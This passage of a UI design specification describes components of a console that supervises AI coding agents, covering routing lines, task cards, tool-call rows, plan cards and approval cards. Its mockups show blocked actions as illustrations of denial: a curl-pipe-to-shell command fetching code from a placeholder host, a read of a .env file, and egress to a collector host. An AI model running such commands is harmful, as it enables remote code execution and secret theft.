  retry: { cause: ModelErrorCode; attempt: number; max: number; retryInMs: number | null } | null;
  expanded: boolean;
  onToggle(): void;
  onExplain(): void;                           // ExplainDrawer {kind: 'routing'}
  continueOn: { modelId: string; tier: Tier } | null;   // ID-16: offered when only higher tiers remain after a failure, or first admissible model for ST-3
  onContinueOn?(): void;                       // -> session.setPin {session_id, pin_model: continueOn.modelId} (ID-04)
  onConfigureProvider?(): void;                // ST-3 action -> SCR-6
  onChangeClassification?(): void;             // ST-3 action -> classification dialog
}
```

**States.** chosen (default), pinned, fallback (one or more fallback lines, newest last), retrying (inline "Rate limited by {provider}; retrying in 20 s (2/3)" per WRD-11 §5), no candidate (ST-3, `color-state-waiting`, actions), expanded (candidate table), loading (before `routing.decision`, the task shows "Choosing a model…" with reserved 24 px height).

**Data sources.**

| Field | Source | Transformation |
|---|---|---|
| `routingId`, `taskClass`, `classification`, `strategy`, `pinned` | `evt:routing.decision → payload.{routing_id, task_class, classification, strategy, pin}` | |
| `chosen` | `evt:routing.decision → payload.chosen{model_id, provider_id, tier}` | null → no-candidate variant |
| `explanation` | `evt:routing.decision → payload.explanation` | verbatim; if empty, key `routing.because.generic` with `{strategy, classification, n}` |
| `candidates[]` | `evt:routing.decision → payload.candidates[]{model_id, provider_id, tier, status, reason_code, reason, quality_prior, est_cost_usd}` | order: chosen, admitted (payload order = rank), unhealthy, rejected |
| `counts`, `rejectedByCode` | same | count by `status`, group rejected by `reason_code` |
| `budgetRemainingUsd` | `evt:routing.decision → payload.budget_remaining_usd` | |
| `continueOn` | paused task (`evt:task.state → payload.to = 'waiting_for_input'`, reason `no_admissible_model` or `provider`): first `payload.candidates[]` entry with `status = 'admitted'` not yet tried, ordered by rank, confirmed admissible by `rpc:provider.models {session_id, task_class} → admissible` | label "Continue on {model} ({tier})" (`st.3.action.continue`, NEW for B07); a higher tier than the failed model is shown explicitly because fallback never widens tier automatically (ID-16) |
| pin applied | `rpc:session.setPin → result`, then `evt:routing.decision → payload.pin` for the paused task and `evt:task.state → running` | confirming event (B05 §5.2) |
| `fallbacks[]` | `evt:routing.fallback → payload.{from, to, cause, fallback_count}` where `payload.routing_id` matches | tier never widens (display asserts `to.tier ≤ from admitted max`) |
| `retry` | `evt:model.call.end → payload.error{code, retryable}` for the current `model_call_id` + next `model.call.start` | attempt count per `routing_id`; `retryInMs` only if the runtime supplies it in `task.state.payload.detail` (ASM A-7) |
| "model actually used" per call | `evt:model.call.start → payload.{model_id, tier, routing_id}` | shown in details table |

**Update behaviour.** Created on `routing.decision` for the task; updated on `routing.fallback`, `model.call.start`, `model.call.end` (errors only). One RoutingLine per `routing_id`; a task usually has one (task-level stickiness, core §13.7).

**Accessibility.** The line is a `button` with `aria-expanded` controlling the details region; the tier chip carries `aria-label` from B06 (`tier.aria`). Rejected candidates in details read "{model}, tier {T}, not admitted: {reason}". CLI tooltip: `warden models --session`.

**Tokens.** `text-sm`, `mono-sm`, `color-text-muted`, `color-tier-t0..t4`, `color-state-waiting` (ST-3), icons `route`, `corner-down-right`.

**Message keys.** `routing.chosen`, `routing.pinned`, `routing.because.generic`, `routing.fallback`, `routing.fallback.none`, `routing.retrying`, `routing.noCandidate`, `routing.reject.<reason_code>` (one per RoutingRejection), `routing.details.column.{model,tier,status,reason,prior,cost}`, `routing.choosing`.

### C-08 TaskCard

**Purpose.** A task in the workflow (plan, implement, verify, repair-1, verify-2, summarize) with a live step counter, routing line, collapsed tool calls, denied calls pinned visible, inline approvals, live output and per-task usage (F-AU-3).

**Anatomy.**

```
+----------------------------------------------------------------------------------------------+
|| [loader] Running  implement  coder 1.0.0 · implement mode      Step 14/60   2:31   $0.00    |  header (reserved)
|| [route] Chosen: local/qwen-coder-32b [T0] because prefer-internal; internal data; 3 cand.   |  RoutingLine
|| [>] 12 tool calls: 5 reads, 4 writes, 2 commands, 1 approval                                 |  collapsed group
||    [ban] proc.exec  sh -c "curl -s https://setup.example.net/x | sh"   Denied  platform.no-shell-strings |
|| +- Live output (model) ------------------------------------------------------ Hide -+       |  fixed height
|| | …streamed text…                                                                     |       |
|| +------------------------------------------------------------------------------------+       |
|| [ApprovalCard, when pending]                                                                  |
|| Artifacts: code-diff v1 · checkpoint                                         [Cancel Mod+.] |
+----------------------------------------------------------------------------------------------+
```

Verify variant: when build exits 0 and `failed = 0`, no model is called (ID-09): there is no RoutingLine (its reserved 24 px row reads "No model needed: all checks passed"), the analysis is runtime-generated, and cost is 0 model calls. Otherwise the body shows a TestReport summary line per profile ("node-test: 42 passed, 1 failed") and the analysis excerpt once the `test-report` artifact exists. Repair variant: header adds "Repair round 1 of 1" and the body starts with the failure analysis it consumes (`test-report.analysis`, CF-25). Summarize variant (CF-43): no write rows, produces `repo-map`.

**Props.**

```ts
export interface ToolCallGroupView {
  total: number;
  byKind: { reads: number; writes: number; commands: number; git: number; other: number };
  denied: number;
  approvals: number;
  failed: number;
  rows: ToolCallRowProps[];                    // all rows, virtualized when expanded
  pinnedCallIds: string[];                     // always visible: denied, awaiting approval, rejected, failed, violation
}
export interface StreamRegionView {
  kind: 'model_text' | 'model_tool_args' | 'tool_output';
  text: string;                                // tail buffer, max 64 KiB (B05 §4.4)
  droppedHeadBytes: number;
  hidden: boolean;                             // user toggle (SC 2.2.2)
  untrusted: boolean;                          // true for tool_output
  live: boolean;                               // false after model.call.end / tool.exec.end
}
export interface TaskUsageView {
  inputTokens: number;
  outputTokens: number;
  cachedInputTokens: number;
  reasoningTokens: number;
  cost: Money;
  quota: Quota[];
  toolCalls: number;
  modelCalls: number;
}
export interface TaskCardProps {
  taskId: string;
  taskKey: TaskKey;
  runId: string;
  agent: { name: 'coder' | 'verifier'; version: string; mode: CoderMode | null };
  state: TaskState;
  reason: TaskReason | null;
  detail: string | null;                       // task.state payload.detail (runtime-authored)
  attempt: number;
  maxAttempts: number | null;
  repairRound: { round: number; max: number } | null;
  step: { current: number; max: number | null };
  elapsed: { activeMs: number; wallMs: number; pausedMs: number };
  routing: RoutingLineProps[];                 // one per routing_id; latest last
  toolCalls: ToolCallGroupView;
  toolCallsExpanded: boolean;
  approvals: ApprovalCardProps[];              // pending first, then resolved (collapsed rows)
  inputRequest: ApprovalCardProps | null;      // question approval (kind 'question', ID-05); rendered as the ApprovalCard question variant
  onContinueOn(modelId: string): void;        // ST-3 / ID-16 -> session.setPin (ID-04)
  live: StreamRegionView | null;
  usage: TaskUsageView;
  artifacts: { artifactId: string; type: ArtifactType; version: number; partial: boolean; superseded: boolean }[];
  sandbox: { sandboxId: string; level: SandboxLevel; backend: SandboxBackend } | null;
  harness: { harnessId: string; kind: HarnessKind; runMode: HarnessRunMode; vendorTerms: VendorTerms } | null;
  greyed: boolean;
  cancel: ActionAvailability & ActionPhase;
  onToggleToolCalls(): void;
  onToggleLive(): void;
  onSelectCall(callId: string): void;
  onSelectArtifact(artifactId: string): void;
  onCancel(): void;                            // -> session.cancel {session_id, task_id}
  onExplain(): void;
}
```

**States.** queued (`circle-dashed`, "Queued"), running (spinner, step counter live, live output visible), waiting_for_approval (pulse per B06 §9.3, pending ApprovalCard inline, header label "Waiting for approval"), waiting_for_input with `reason = 'input_needed'` (question row with the model's question as model-written text, B05 OQ candidate on the answer path), waiting_for_input with `reason = 'no_admissible_model'` (ST-3: RoutingLine no-candidate variant with actions), waiting_for_input with `reason = 'budget'` (ST-4 inline: spend and limit, Raise limit), succeeded, failed (reason line: `failed.<reason>` key + `detail`; policy_denied shows the rule id per WRD-11 §5), timed_out, cancelled (greyed; partial artifacts flagged), blocked (`upstream_failed`), interrupted-then-requeued (notice row "Runtime restarted; retrying (attempt 2/2)").

**Data sources.**

| Field | Source | Transformation |
|---|---|---|
| `taskKey`, `state`, `reason`, `detail`, `attempt` | latest `evt:task.state → payload.{task_key, to, reason, detail, attempt}` with `env.task_id` | |
| `agent` | `evt:task.state → env.actor.{name, version}` (ASM A-8: actor is the agent for task transitions); `mode` from `task_key` (plan→plan, implement→implement, repair-1→repair, summarize→summarize, verify*→null) | |
| `maxAttempts`, `step.max` | `rpc:workflow.get → tasks[].max_attempts` (A05); `limits.max_steps` is a NEW request to A05 (ASM A-9); `tasks[].execution.steps` (A05) cross-checks `step.current` after reconnect | null max → "Step 14" without denominator |
| `repairRound` | `task_key = 'repair-1'` → `{1, 1}` (repair max_rounds 1) | |
| `step.current` | max `evt:model.call.start → payload.step` with `env.execution_id` = current execution | current execution = `env.execution_id` of the latest `task.state` to `running` |
| `elapsed` | `evt:task.state` timestamps | §6.5 |
| `routing[]` | `evt:routing.decision` with `env.task_id` | C-07 |
| `toolCalls` | C-09 join, filtered by `env.task_id` | kind: reads = fs.read/list/search + git.status/diff; writes = fs.write/patch; commands = proc.exec; git = git.commit |
| `approvals[]` | `evt:approval.requested` with `env.task_id` | C-11 |
| `inputRequest` | `evt:approval.requested` with `payload.kind = 'question'` and `env.task_id` (ID-05); question text from `payload.display.what`; answered with `approval.resolve {approval_id, decision: 'approve', answer}` | C-11 question variant |
| `live` | `delta:model_text`, `delta:model_tool_args`, `delta:tool_output` with `task_id` | tail buffer; `live=false` on `model.call.end` or `tool.exec.end` |
| `usage` | §6 | grouped by `task_id` |
| `artifacts[]` | `evt:artifact.created → payload.{artifact_id, type, partial, supersedes}` with `env.task_id`; `superseded` if a later artifact's `supersedes` equals this id | |
| `sandbox` | `evt:sandbox.create → payload.{sandbox_id, level, backend}` with `env.task_id` and `purpose = 'task'` | |
| `harness` | `evt:harness.session.start → payload.{harness_id, kind, run_mode, vendor_terms}` | |
| `greyed` | run cancelled (`workflow.end.status = 'cancelled'`) | |

**Update behaviour.** Header re-renders on `task.state`, `model.call.start` (step), `model.call.end` (cost, tokens), elapsed tick (1 s while `running`, paused while waiting; B05 §9). Group summary re-renders on `policy.decision`, `tool.exec.start/end`, `approval.*`, `proxy.*`, `sandbox.violation`. Live region re-renders on `stream.delta` at most every 80 ms (B05 §4.4).

**Accessibility.** The card is the body of an `article` (C-06). Collapsed group toggle is a `button` with `aria-expanded` and `aria-controls`; the step counter is plain text inside the header description ("Step 14 of 60"), not a live region (B05 §12.4 announces only state transitions). Live output region: `role="log"` with `aria-live="off"` and a "Hide live output" toggle. Cancel button: `aria-describedby` points to `cancel.warning`.

**Tokens.** `color-state-*`, `color-effect-deny` (pinned denied rows), `color-untrusted` (live tool output), `mono-sm`, `text-md-strong` (B06), `space-5` (row indent), `radius-md`, `elevation-1`.

**Message keys.** `task.title.<task_key>`, `task.agent`, `task.step`, `task.step.noMax`, `task.repairRound`, `task.toolCalls.summary`, `task.live.label.{model_text,model_tool_args,tool_output}`, `task.live.hide`, `task.live.show`, `task.failed.<reason>` (one per TaskReason that can end in failed), `task.waiting.<reason>`, `task.interrupted.retrying`, `task.input.question`, `cancel.warning`.

### C-09 ToolCallRow

**Purpose.** One tool call with its decision before its effect (WRD-11 principle 1): tool, exact target, effect chip with rule id, execution result, egress attempts made during it, sandbox violations, and, on expansion, redacted arguments and untrusted output.

**Anatomy.**

```
collapsed (28 px):
[shield-check] [terminal] proc.exec  npm test                      Allowed · user.profile-commands   exit 0 · 8.2 s
[ban]          [file-text] fs.read  .env                           Denied · invariant.INV-1              3 layers
[hand]         [package] proc.exec  npm install                    Needs approval · user.package-install  (card below)
expanded (context panel or inline):
  Decision  allow · user.profile-commands · cache miss · dec_…           [Explain]
  Execution sandbox sb_… (L1 seatbelt) · exit 0 · 14.2 KiB · 8.2 s · not truncated
  Egress    registry.npmjs.org:443 connected (user.package-install grant) · collector.example.net:443 denied
  Output    [Untrusted output] …first 200 lines…   [Load full output]
```

**Props.**

```ts
export type ToolCallPhase =
  | 'proposed' | 'denied' | 'awaiting_approval' | 'rejected' | 'expired' | 'running' | 'succeeded' | 'failed' | 'interrupted';
export interface DecisionView {
  decisionId: string;
  seq: Seq;
  effect: Effect;
  reason: string;
  matchedRules: string[];
  riskClass: RiskClass;
  resolvedByApproval: string | null;           // CF-40 second decision
  cacheHit: boolean;
  obligations: Record<string, unknown>;        // e.g. egress_allow, timeout_seconds
}
export interface ToolCallRowProps {
  callId: string;
  taskId: string;
  executionId: string | null;
  step: number | null;
  tool: ToolId;
  harnessTool: string | null;                  // harness-native tool name (harness.hook)
  executor: Executor | null;
  target: string;                              // display summary, see transformation
  decisions: DecisionView[];                   // ascending seq; last is effective
  approvalId: string | null;
  phase: ToolCallPhase;
  exec: { sandboxId: string | null; exitCode: number | null; bytesOut: number | null; truncated: boolean;
          durationMs: number | null; error: { code: string; message: string } | null; outputRef: string | null } | null;
  egress: { host: string; port: number; outcome: 'connected' | 'denied'; rule: string; reason: string | null; seq: Seq }[];
  violations: { kind: string; detail: string; seq: Seq }[];
  untrustedOutput: boolean;
  redactions: Redactions;
  pinned: boolean;
  selected: boolean;
  expanded: boolean;
  output: { state: 'idle' | 'loading' | 'ready' | 'error'; text: string | null; totalSize: number | null };
  onSelect(): void;
  onToggle(): void;
  onLoadOutput(): void;                        // -> artifact.read {id: callId} (A05: serves the tool.exec.end.output_ref blob)
  onExplain(): void;                           // ExplainDrawer {kind: 'policy', decisionId}
}
```

**States.** proposed (only from `delta:model_tool_args`, italic muted "Proposing…"; replaced by the decision), denied (deny stripe, `ban`, rule id visible without expansion), awaiting_approval (approval chip; the ApprovalCard renders below in the TaskCard), rejected (after `approval.resolved(reject)`), expired, running (spinner, elapsed), succeeded, failed (`tool.exec.end.ok = false` or `exit_code ≠ 0`; exit code visible), interrupted (task ended without `tool.exec.end`), plus flags: truncated, redacted, violation (`shield-alert` with kind), untrusted output.

**Data sources.**

| Field | Source | Transformation |
|---|---|---|
| `decisions[]` | `evt:policy.decision → payload.{decision_id, effect, reason, matched_rules, action.risk_class, resolved_by_approval, cache_hit, obligations}` with `payload.call_id` | ascending seq |
| `approvalId` | `evt:policy.decision → payload.approval.approval_id` | |
| `tool`, `executor` | `evt:tool.exec.start → payload.{tool, executor}`; if no exec start, `evt:policy.decision → payload.action.{tool, operation}` mapped to ToolId | |
| `target` | `evt:tool.exec.start → payload.args_redacted` else `evt:policy.decision → payload.action.{resource, args_redacted}` | fs: `resource.rel_path`; proc: argv joined, args with spaces quoted, middle-truncated at 120 chars; git: subcommand + branch; approval.request: "Asks a question" |
| `step` | latest `evt:model.call.start → payload.step` with same `env.execution_id` and `seq` below the first `policy.decision` of the call | derived (A10 may add `step` to `policy.decision`, ASM A-12) |
| `exec` | `evt:tool.exec.start → payload.sandbox_id`; `evt:tool.exec.end → payload.{ok, exit_code, bytes_out, truncated, duration_ms, error, output_ref}` | |
| `egress[]` | `evt:proxy.connect` and `evt:proxy.denied → payload.{host, port, rule, reason}` with `payload.sandbox_id = exec.sandboxId` and `seq` between `tool.exec.start` and `tool.exec.end` of the call | ASM A-13: A07 may add `call_id` to proxy events; then join by id |
| `violations[]` | `evt:sandbox.violation → payload.{kind, detail}` with same `sandbox_id` in the call window | |
| `harnessTool` | `evt:harness.hook → payload.harness_tool` with `payload.call_id` | |
| `untrustedOutput` | tool ∈ {fs.read, fs.search, fs.list, proc.exec, git.status, git.diff} or `executor = 'harness'` | BI-4 |
| `redactions` | `env.redactions` of `tool.exec.end` plus `evt:redaction` with `source = 'tool_output'` in the call window | |
| `phase` | state machine over the above | proposed → (denied | awaiting_approval → rejected | expired | running) → succeeded | failed | interrupted |
| `pinned` | `phase ∈ {denied, awaiting_approval, rejected, expired, failed}` or `violations.length > 0` or any egress `denied` | |

**Update behaviour.** Created on the first `policy.decision` (or `delta:model_tool_args` for the transient proposed state); updated by the joined events above. A denied call never gets `tool.exec.start`: the row ends in `denied`.

**Accessibility.** Rows are `listitem` in a `list` inside the TaskCard; the row is a `button` (select) with the effect announced in text ("Denied by invariant.INV-1"). Expanded details are a region labelled by the row. Output block: caption "Untrusted output from {tool}, call {id}" precedes the text; the block is `pre` with `tabindex="0"` for scrolling by keyboard.

**Tokens.** `color-effect-allow`, `color-effect-deny`, `color-effect-deny-bg` (B06), `color-effect-approval`, `color-untrusted`, `color-untrusted-bg` (B06), `mono-sm`, `mono-md` (output), `space-5` (indent).

**Message keys.** `effect.allow`, `effect.deny`, `effect.approval_required`, `toolcall.phase.<phase>`, `toolcall.exit`, `toolcall.truncated`, `toolcall.egress.connected`, `toolcall.egress.denied`, `toolcall.violation.<kind>`, `toolcall.output.load`, `provenance.untrusted`, `redaction.count`.

### C-10 PlanCard

**Purpose.** The plan presented at gate G1 (SCR-3): summary, steps with expected files and rationale, risks, estimated cost, and the model used with the reason it was chosen (WRD-16 §3 step 3, §13 screen 3). In edit mode it is the inline editor for summary and steps (B05 §7.2).

**Anatomy.**

```
+ [list-checks] Plan  v1  (model-written by local/qwen-coder-32b [T0])                         +
| [route] Chosen: local/qwen-coder-32b because prefer-internal; internal data; 3 candidates     |
| Summary   Add GET /users/:id returning the user or 404, with tests.                           |
| Steps     1  Add route and service lookup                                                     |
|              files: src/routes/users.ts, src/services/users.ts   rationale: …                 |
|           2  Add tests for found and not found                                                |
|              files: test/users.test.ts, test/fixtures/users.ts                                |
| Expected files (4)   src/routes/users.ts · src/services/users.ts · test/users.test.ts · …     |
| Risks     [triangle-alert] Existing error middleware may map 404 differently                  |
| Estimate  2 steps · 0.00 (local; infrastructure cost not tracked)                              |
| Note: file lists describe intent; they do not change what agents are allowed to do.           |
+-----------------------------------------------------------------------------------------------+
```

**Props.**

```ts
export interface PlanStepView { title: string; files: string[]; rationale: string }
export interface PlanView {
  artifactId: string;
  version: number;
  summary: string;
  steps: PlanStepView[];
  expectedFiles: string[];                     // string[] (CF-32)
  risks: string[];
  estimate: { steps: number | null; cost: Money };
  edited: { by: string; artifactId: string } | null;   // after G1 edit
  partial: boolean;
}
export interface PlanDraft { summary: string; steps: PlanStepView[] }
export interface PlanValidationError {
  pointer: string;                             // JSON pointer, e.g. '/steps/1/title'
  code: 'required' | 'too_long' | 'min_items' | 'max_items' | 'path_invalid' | 'path_absolute'
      | 'path_traversal' | 'duplicate_path' | 'path_denied' | 'path_not_writable' | 'schema';   // B05 §7.2; path_not_writable is a warning
  messageKey: MessageKey;
}
export interface PlanCardProps {
  plan: PlanView | null;                       // null = loading
  mode: 'review' | 'edit' | 'readonly';        // readonly after G1 resolved or in a cancelled run
  routing: RoutingLineProps | null;            // plan task's routing decision
  modelUsed: { modelId: string; tier: Tier } | null;
  draft: PlanDraft | null;                     // edit mode only
  errors: PlanValidationError[];
  loadError: RpcErrorView | null;
  onDraftChange(draft: PlanDraft): void;
  onAddStep(afterIndex: number): void;
  onRemoveStep(index: number): void;
  onMoveStep(index: number, direction: -1 | 1): void;   // buttons + Alt+Shift+Arrow (B05 §2.6)
  onSelectFile(path: string): void;
}
```

**States.** loading (skeleton with the plan task's routing line already visible), review, edit (fields become inputs; each step gets Move up, Move down, Remove; "Add step" after each step; expected files recomputed live from step files), invalid (field-level messages; Save disabled with reason), readonly-approved (header chip "Approved by local:robert"), readonly-edited (chip "Edited before approval" with link to the edited version), partial (plan task cancelled: chip "Partial"), load error (inline Retry).

**Data sources.**

| Field | Source | Transformation |
|---|---|---|
| plan artifact id | `evt:workflow.gate.presented → payload.artifacts[]` (type `plan`) with `gate_key = 'gate-plan'`; confirmed by `evt:artifact.created → payload.type = 'plan'` | |
| `summary`, `steps`, `expectedFiles`, `risks`, `estimate` | `rpc:artifact.read {id} → result.content` (JSON plan: `summary`, `steps[]{title, files, rationale}`, `expected_files[]`, `risks[]`, `estimate{steps, cost_usd}`) | `estimate.cost` per §6.3: if the plan task's chosen tier is T0/T1 and `cost_usd` is 0 or null → `{amount: 0, note: 'infra_untracked'}` |
| `version`, `partial` | `rpc:artifact.get {id} → result.{version, partial}` | |
| `edited` | `evt:artifact.edited → payload.{artifact_id, edited_by}` and `evt:workflow.gate.resolved → payload.edited_artifact` | |
| `routing`, `modelUsed` | `evt:routing.decision` with `env.task_id` = plan task; `evt:model.call.start → payload.{model_id, tier}` (last) | C-07 |
| validation | local, against the plan JSON Schema (A13 `schemas/plan.json`; rules in B05 §7.2) | |

**Update behaviour.** Loads on `workflow.gate.presented(gate-plan)`; re-renders on `workflow.gate.resolved`, `artifact.edited`, `task.state` of the plan task. In edit mode, incoming events never overwrite the draft; if the gate is resolved elsewhere (CLI) while editing, the editor closes with notice `plan.edit.resolvedElsewhere` and the draft is kept in a collapsible "Your unsaved edits" block for copying (B05 §7.3).

**Accessibility.** Review mode: definition list (`dl`) for Summary, Steps, Expected files, Risks, Estimate; steps are an ordered list. Edit mode: every input has a visible label ("Step 2 title"); errors via `aria-invalid` + `aria-describedby`; Move and Remove buttons have names including the step number; reordering never requires dragging (SC 2.5.7). The model-written caption is the first element read.

**Tokens.** `color-surface-1`, `color-surface-2` (inputs), `color-effect-approval` (4 px gate stripe per B06 §7), `text-lg`, `text-md`, `mono-sm` (paths), `mono-md` (edit fields for files), `space-4`.

**Message keys.** `plan.title`, `plan.modelWritten`, `plan.summary`, `plan.steps`, `plan.step.title`, `plan.step.files`, `plan.step.rationale`, `plan.expectedFiles`, `plan.risks`, `plan.estimate`, `plan.intentNote`, `plan.edit.addStep`, `plan.edit.removeStep`, `plan.edit.moveUp`, `plan.edit.moveDown`, `plan.edit.resolvedElsewhere`, `plan.edit.unsaved`, `plan.error.<code>`, `plan.approvedBy`, `plan.editedBeforeApproval`, `cost.zero_local`.

### C-11 ApprovalCard

**Purpose.** The inline approval prompt (SCR-4) for an `approval_required` decision: what, who, why, scope selector limited by `scope_max`, Approve and Reject, Explain (WRD-11 §2.3, WRD-08 §7). It never auto-dismisses; it leaves the pending state only on an `approval.resolved` event. The same component renders the push approval inside the DeliveryBar (`kind: 'push'`, scope fixed to `once`).

**Anatomy.**

```
+==== [hand] Needs approval · install · R4 ============================================ 12:04:31 +
|| What   npm install                                                             (mono-md)       |
||        After approval, egress to: registry.npmjs.org:443, proxy.golang.org:443, …             |
|| Who    coder 1.0.0 · implement · step 9 · call_…                                               |
|| Why    Package install needs network egress. Rule user.package-install                        |
|| Scope  (1) Once   (2) This task   (3) This session   (4) This workspace                        |
||        This workspace: also allows "proc exec, install profile" in ts-express-api until revoked|
|| [A  Approve]  [R  Reject]                      [info Explain  E]   CLI: warden approve apr_9 --scope workspace |
|| Focus hint: A approve · R reject · 1-4 scope        (unfocused: "Press G then A to review")    |
+==============================================================================================+
resolved (collapsed row, 28 px): [shield-check] Approved npm install · scope workspace · local:robert · 12:04:40  [undo-2 Revoke]
```

**Props.**

```ts
export type ApprovalCardPhase =
  | 'pending' | 'sending' | 'confirming' | 'slow'
  | 'approved' | 'rejected' | 'expired' | 'cancelled' | 'revoked' | 'error';
export interface ScopeOptionView {
  scope: ApprovalScope;
  key: '1' | '2' | '3' | '4';
  enabled: boolean;
  disabledReasonKey: MessageKey | null;        // scope.disabled.max | .r5 | .notAllowedByAgent
  consequenceKey: MessageKey;                  // what the grant covers at this scope
}
export interface ApprovalCardProps {
  approvalId: string;
  decisionId: string;
  callId: string;
  taskId: string;
  taskKey: TaskKey;
  runId: string;
  approvalKind: ApprovalKind;                  // payload.kind: action | question (gates use C-13)
  kind: 'inline' | 'push';
  variant: 'install' | 'command' | 'egress' | 'push' | 'harness' | 'question' | 'file';
  whatKey: MessageKey;                         // B07 approval.what.<variant> (also approval.why.<variant>, approval.extra.<variant>)
  answer: { text: string; maxLength: 4000 } | null;     // question variant only (B07 §3.3); sent as approval.resolve.answer (ID-05), redacted before persistence
  what: string;                                // display.what (runtime-authored, redacted)
  whatDetail: string | null;                   // e.g. egress hosts from obligations.egress_allow
  who: string;                                 // display.who
  why: string;                                 // display.why
  reason: string;                              // payload.reason
  ruleIds: string[];
  riskClass: RiskClass;
  pattern: { tool: string; operation: string; resourcePattern: string };
  scopes: ScopeOptionView[];                   // always four, in order once..workspace
  scopeMax: ApprovalScope;
  selectedScope: ApprovalScope;                // local; default 'once', install approvals 'workspace' when allowed (B05 §6.2)
  step: number | null;
  requestedAt: Iso8601;
  expiresAt: Iso8601;                          // 24 h (core §13.3)
  heldConnection: { host: string; port: number; heldUntil: Iso8601; refusedAt: Iso8601 | null } | null;
  taint: string[];                             // taint sources if present (WRD-11 §2.3); empty in PoC
  phase: ApprovalCardPhase;
  resolution: {
    decision: ApprovalDecision; scope: ApprovalScope | null; approver: string;
    grantExpiresAt: Iso8601 | null; viaThisClient: boolean; seq: Seq;
    revoked: { by: string; seq: Seq } | null;
  } | null;
  error: RpcErrorView | null;
  focusWithin: boolean;                        // keyboard scope active (B05 §2.5)
  armed: boolean;                              // arming guard passed (B05 §2.5)
  cli: { approve: string; reject: string };
  onScopeChange(scope: ApprovalScope): void;
  onApprove(): void;                           // -> approval.resolve {approval_id, decision:'approve', scope}
  onReject(): void;                            // -> approval.resolve {approval_id, decision:'reject', scope:'once'}
  onExplain(): void;                           // ExplainDrawer {kind:'approval', approvalId}
  onRevoke(): void;                            // resolved + granted only -> approval.revoke
}
```

`variant` mapping (card heading is `approval.title`; `payload.kind = 'question'` → `question` (ID-05); the variant selects B07's what/why/extra templates, filled from the structured, redacted payload fields, with `display.*` as fallback per B07 §3): approval kind question (A10) → `question`; `proc`/`exec` with profile `install` → `install`; other `proc` → `command`; `proxy`/`connect` → `egress`; `git`/`push` → `push`; `harness`/`start` → `harness` (tolerated harness, CF-03); `fs` → `file` (not produced by PoC defaults, kept for completeness).

Scope option rules (core §13.2): an option is enabled if it is in `scopes_allowed` and `≤ scope_max`. Disabled reasons: above `scope_max` → `scope.disabled.max` with `{scopeMax, rule}`; `risk_class = 'R5'` → `scope.disabled.risk_r5` for task, session and workspace; not in the agent's `scopes_allowed` → `scope.disabled.agent`. Consequence text per scope (`scope.<scope>.explain`) names `pattern.resourcePattern` so the user sees what else the grant will allow.

**States.** Phases above; visual states: pending-unfocused (stripe, tint, hint "Press G then A to review"), pending-focused (focus ring on the card region, key hint row visible, scope radios live), sending / confirming ("Sending…" on the pressed button, both buttons `aria-disabled`, scope locked), slow (after B05 T-CONFIRM-SLOW: "Waiting for the runtime to confirm…"), approved / rejected (collapse to a 28 px resolved row at the tail of the TaskCard), expired (row "Expired after 24 h; task failed (approval_expired)"), cancelled (row "Task cancelled while waiting"), revoked (resolved row gains "Revoked by … at …"), error (inline message under the buttons; buttons re-enabled; B05 §11), held connection refused (note "The connection was refused after 2 min; approving still records the grant for later connections", core §13.4), resolved elsewhere (row shows "Resolved from CLI by {approver}" when `viaThisClient` is false).

**Data sources.**

| Field | Source | Transformation |
|---|---|---|
| `approvalId`, `decisionId`, `callId`, `riskClass`, `scopeMax`, `reason`, `ruleIds`, `pattern`, `expiresAt` | `evt:approval.requested → payload.{approval_id, decision_id, call_id, risk_class, scope_max, reason, rule_ids, pattern{tool, operation, resource_pattern}, expires_at}` | |
| scopes allowed | `evt:approval.requested → payload.scopes_allowed[]` | four ScopeOptionView built per rules above |
| `what`, `who`, `why` | `evt:approval.requested → payload.display.{what, who, why}` | verbatim |
| `whatDetail` | `evt:policy.decision → payload.obligations.egress_allow[]` where `payload.decision_id = decisionId` | "After approval, egress to: …"; for `proxy` pattern: `action.resource.{host, port}` |
| `taskId`, `runId`, `requestedAt` | `evt:approval.requested → env.{task_id, workflow_run_id, ts}` | |
| `taskKey` | latest `evt:task.state → payload.task_key` for `taskId` | |
| `step` | C-09 derivation for `callId` | |
| `heldConnection` | `pattern.tool = 'proxy'`: `heldUntil = requestedAt + 120 s`; `refusedAt` = `env.ts` of `evt:proxy.denied` with `payload.decision_id = decisionId` | core §13.4; approving `once` after refusal yields a one-shot grant for the next identical connection within 10 min (ID-07), shown from `approval.resolved → grant_expires_at` |
| `resolution` | `evt:approval.resolved → payload.{approval_id, decision, scope, approver, grant_expires_at}`; `evt:approval.revoked → payload.{approval_id, by}` | `viaThisClient` = a local submission for this id exists |
| follow-up decision | `evt:policy.decision` with `payload.resolved_by_approval = approvalId` (CF-40) | shown in Explain details as proof of the allow |
| `error` | `rpc:approval.resolve` error | B05 §11 |
| `cli` | constant templates `warden approve <id> --scope <scope>`, `warden reject <id>` | |

**Update behaviour.** Created on `approval.requested`; phases change only on `approval.resolved`, `approval.revoked`, `task.state` of its task to `cancelled`, RPC results and errors (B05 §6). Height is reserved from creation (B06 §6.2: 32 px buttons, fixed sections); collapse to the resolved row happens only when the card is at the tail of the timeline or out of view (B05 §4.2).

**Accessibility.** The card is a `region` (`aria-labelledby` title, `aria-describedby` what + why) with `tabindex="-1"` so `G A` can focus it; not `role="alertdialog"` (it is inline and non-modal). Scope is a native `radiogroup` (arrow keys change scope as usual; `1` to `4` are shortcuts); disabled options stay focusable with `aria-disabled` and reason. Approve and Reject are buttons with `aria-keyshortcuts="A"` / `"R"` (effective only with focus inside the card, B05 §2.5). Status changes are announced via the app live region (B05 §12.4), not by making the card itself live.

**Tokens.** `color-effect-approval`, `color-effect-approval-bg` (B06), `color-effect-allow`, `color-effect-deny`, `color-focus`, `color-accent` (selected scope inner border, B06 §7), `mono-md` (what), `text-md-strong` (B06), `space-3`, `space-4`, `radius-md`, 4 px stripe.

**Message keys.** `approval.what.{install,command,egress,push,harness,question,file}`, `approval.label.{what,who,why,scope}`, `approval.whatDetail.egress`, `scope.{once,task,session,workspace}`, `scope.{once,task,session,workspace}.explain`, `scope.disabled.{max,risk_r5,agent,taint}`, `approval.approve`, `approval.reject`, `approval.explain`, `approval.kbd_hint`, `approval.hint.unfocused`, `approval.sending`, `approval.slow`, `approval.resolved.{approve,reject,expire,cancel}`, `approval.resolvedElsewhere`, `approval.revoked`, `approval.revoke`, `approval.extra.egress_hold`, `approval.proxy_refused_pending`, `approval.expires`, `risk.<R0..R6>`.

### C-12 PendingApprovalBadge

